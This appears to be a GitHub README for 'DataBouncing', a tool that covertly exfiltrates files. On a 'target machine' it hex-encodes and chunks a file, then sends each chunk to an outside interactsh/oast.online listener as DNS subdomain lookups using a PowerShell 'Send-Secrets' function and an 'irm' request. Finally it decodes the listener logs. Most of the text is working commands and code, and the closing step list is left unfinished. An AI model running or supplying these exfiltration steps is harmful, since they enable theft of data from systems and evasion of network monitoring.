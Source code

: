# DataBouncing

You have two options. 
Use the [InteractSh Web Client](https://app.interactsh.com/#/) or 
use this [Build Script](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh) with an Ubuntu 22.04 image.

Run this command on your listener machine to start the InteractSh Client and define your log file

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```

Next on the target machine you are going to want to convert a file to Hex and prepare it for transfer with this script:
[chunks](https://github.com/Unit-259/DataBouncing/blob/main/Client/Convert-FileToHexChunks.ps1)

```powershell
$segments = Convert-FileToHexChunks -FilePath .\file.txt
```



```
function Send-Secrets {
    param (
        [string]$xregex,
        [string]$urlSuffix
    )

    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value
        $url = "$xregex.$secret.$urlSuffix"
        Send-CustomRequest $url
    }
}
```

```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```



```
Convert-hexToAscii (find-secret -FilePath ./logs.txt -XRegex 'xregex')
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
